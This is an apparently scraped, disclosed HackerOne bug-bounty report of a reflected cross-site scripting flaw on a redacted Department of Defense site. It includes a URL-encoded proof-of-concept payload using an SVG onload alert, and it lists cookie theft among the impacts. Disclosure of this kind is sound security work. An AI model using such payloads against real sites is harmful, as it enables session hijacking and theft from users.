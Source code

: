 # Reflected XSS at https://██████/██████████ via "████████" parameter

## Report Details
- **Report ID**: 1457413
- **URL**: https://hackerone.com/reports/1457413
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-21T13:18:59.639Z
- **Disclosed**: 2022-02-14T21:19:22.778Z

## Reporter
- **Username**: pelegn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
There is Reflected Cross site scripting issue at the following url:

[https://█████/████](https://██████████/██████████)
Proof Of Concept

https://████████/███████?text=&███=%22%3E%3Csvg/onload=alert(1)%3E████

███████


Best Regards
@pelegn

## Impact

Cookies Exfiltration
SOAP Bypass
CORS Bypass
Executing javascript on the victim behalf

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Navigate to https://█████████/███?text=&███████=%22%3E%3Csvg/onload=alert(1)%3E██████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
